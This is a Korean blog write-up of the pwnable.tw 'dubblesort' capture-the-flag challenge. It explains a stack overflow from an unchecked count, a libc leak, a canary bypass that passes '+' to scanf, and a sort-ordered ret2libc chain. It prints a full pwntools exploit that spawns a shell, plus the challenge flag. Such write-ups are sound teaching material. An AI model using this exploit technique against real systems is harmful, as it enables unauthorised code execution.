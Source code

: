 ```yaml
---
layout: post
title: "[pwnable.tw] dubblesort 풀이"
date: 2018-06-28 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## dubblesort [200 pts]
### Sort the memory!
### `nc chall.pwnable.tw 10101`
### [dubblesort](https://pwnable.tw/static/chall/dubblesort)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/dubblesort/01.png)
{: refdef}

에?

{: refdef: style="text-align: center;"}
![main_01](/img/pwnable.tw/dubblesort/02.png)
![main_02](/img/pwnable.tw/dubblesort/03.png)
{: refdef}
{: refdef: style="text-align: center;"}

`max_count`를 입력받는 부분을 보면 `%u`로 받고나서 길이체크 같은게 하나도 없어요.

그래서 이 부분을 사용해 `BOF`를 일으키고 `ROP`를 써서 풀거에요.

- - -
# 0x01. 공격 방법

우선 제가 생각한 방법으로 공격하려면

- `canary` 알아내기

- memory leak

이렇게 2개가 필요해요.

`canary`를 알아내려면 아마 `read`를 사용하는 `name` 부분에서 할텐데 `0x40`으로 딱 맞아서 알아낼 수 없어요.

{: refdef: style="text-align: center;"}
![memory](/img/pwnable.tw/dubblesort/04.png)
{: refdef}

보면 `canary`는 못 알아내지만 `0xf7fb4000`라는 이상한 냄새 풀풀나는 주소는 알아낼 수 있어요.

>gdb-peda$ p system<br />
$1 = {<text variable, no debug info>} 0xf7e19200 <system>

그럼 이제 `canary`가 문젠데

어떻게는 해보려고 막 하다가 알아낸건데 `%u`에서 숫자가 아닌 문자를 넣었을 때 해당 값이 그대로인걸 알아냈어요!

신나서 페이로드 작성해서 돌려보니까 `canary`는 그대론데 그 이후로도 값이 그대로임...

그래서 다른 문자들로 넣어보다가 `+`, `-`는 그 이후의 값이 바뀌는 걸 확인했어요.

마지막으로 디버깅하다가 알아낸건데 값을 다 넣으면 `func_sort`에 의해서 넣은 값들이 정렬돼요.

그래서 저는 `canary`전에는 작은 값들을 넣고 이후엔 `canary`보단 크지만 `system`같은 함수보단 작은 값들을 넣었고 `system`이 끝나고 리턴 주소는 그냥 `system`이랑 똑같이 넣었어요.

- - -
# 0x02. 익스프로잇

로컬 서버로 테스트할 땐 `process`가 안돼서 `32bit ubuntu`에서 돌렸어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "192.168.0.23"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10101

############################################

s = remote(HOST, PORT)

elf = ELF("./dubblesort")
libc = ELF("./libc_32.so.6")
pause()

############################################

system_off = libc.symbols["system"]
binsh_off = list(libc.search("/bin/sh"))[0]

############################################

s.sendafter("name :", "A"*25)
s.recvuntil("A"*25)
save = u32("\x00" + s.recv(3))

libc_base = save - 0x1b0000
system_addr = libc_base + system_off
binsh_addr = libc_base + binsh_off

print "[*] libc_base : " + hex(libc_base)
print "[*] system_addr : " + hex(system_addr)
print "[*] binsh_addr : " + hex(binsh_addr)

s.sendafter("sort :", "35\n")

for i in range(31):
  if(i < 23):
    s.recv()
    print str(i) + " is " + str(i)
    s.sendline(str(i))

  if(i == 23):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

  if(i == 24):
    s.recv()
    print "canary"
    s.sendline("+")
  
  if(i > 24):
    s.recv()
    print str(i) + " is 0xaaaaaaaa"
    s.sendline("2863311530")

s.recv()
s.sendline("1") # ebp

s.recv()
s.sendline(str(system_addr)) # ret

s.recv()
s.sendline(str(system_addr)) # ret + 4

s.recv()
s.sendline(str(binsh_addr)) # ret + 8

sleep(2)
s.recv()

s.interactive()
```

### FLAG{Dubo_duBo_dub0_s0rttttttt}